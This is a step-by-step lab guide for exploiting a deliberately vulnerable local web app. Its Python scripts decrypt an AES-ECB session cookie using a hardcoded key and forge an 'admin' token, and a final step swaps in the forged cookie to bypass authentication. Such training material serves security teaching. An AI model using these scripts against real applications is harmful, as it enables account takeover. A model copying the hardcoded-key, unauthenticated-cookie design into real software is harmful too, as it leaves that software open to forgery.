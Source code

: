 ## Vulnerability Testing Guide

### Prerequisites:

- Python with `pycryptodome` installed
- The lab app running at `http://localhost:5000`
- Access to browser dev tools or Burp Suite

---

### Step 1: Log in as a Normal User

1. Go to `http://localhost:5000`
2. Use these credentials:

```
Username: user Password: user123
```

#### After logging in, open **Developer Tools → Application → Cookies** and copy the `session` cookie value.

T4HnG4zW93EKfs0gBciClA==`

---

### Step 2: Decrypt the Cookie Token

Create a Python script to decrypt the session token using the known hardcoded key and ECB mode:

```python
from Crypto.Cipher import AES
import base64

SECRET_KEY = b'SECRET_KEY_12345'

def unpad(s):
    return s[:-ord(s[-1])]

def decrypt_token(token):
    cipher = AES.new(SECRET_KEY, AES.MODE_ECB)
    decrypted = cipher.decrypt(base64.b64decode(token))
    return unpad(decrypted.decode())

token = input("Paste session cookie: ")
print("[*] Decrypted session:", decrypt_token(token))

```

### Expected Output

```
Paste session cookie: T4HnG4zW93EKfs0gBciClA== [*] Decrypted session: user
```

---
###  Step 3: Craft a Malicious Admin Token

Now that you understand how encryption works in the app, you can impersonate another user (e.g., `admin`) by encrypting that string yourself.

Use this script:
```python
from Crypto.Cipher import AES
import base64

SECRET_KEY = b'SECRET_KEY_12345'

def pad(s):
    pad_len = 16 - len(s) % 16
    return s + chr(pad_len) * pad_len

def encrypt_token(username):
    cipher = AES.new(SECRET_KEY, AES.MODE_ECB)
    padded = pad(username)
    encrypted = cipher.encrypt(padded.encode())
    return base64.b64encode(encrypted).decode()

print("[*] Generated session token:", encrypt_token("admin"))
```


### Output Example


```
[*] Generated session token: 8YebqTMLHZn0Q7oF7WyvZg==
```

---

### Step 4: Replace the Cookie & Bypass Auth

1. In your browser or Burp Suite, replace the current cookie:

```
session=8YebqTMLHZn0Q7oF7WyvZg==
```

1. Refresh `/dashboard`.

2. You should now see:
  
```
Welcome, admin!